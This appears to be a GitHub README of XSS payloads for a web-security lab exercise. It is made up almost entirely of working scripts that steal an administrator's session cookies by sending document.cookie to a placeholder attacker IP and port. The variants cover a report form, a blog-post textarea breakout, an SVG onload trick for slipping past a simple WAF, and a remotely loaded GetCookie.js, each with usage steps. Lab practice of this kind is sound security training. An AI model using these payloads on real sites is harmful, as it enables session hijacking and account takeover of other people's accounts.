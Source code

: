 # Second Laboratory (XSS) Scripts

### Get Own Cookies On Search:

```html
<script>
    document.write(document.cookie);
</script>
```

- Search above Script

---

### Steal Admin's Cookies On Bug / Feature Report:

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF:

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On BlogPosts Review:

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Post above Script as Blog Content

---

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts:

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js">
    </script>
<textarea>
```

- Fill `<IP>` & `<PORT>` (*GetCookie.js* Domain)
- Post above Script as Blog Content

#### *GetCookie.js*

```js
const HTTP = new XMLHttpRequest();
const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
HTTP.open('GET', URL, false);
HTTP.send();
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
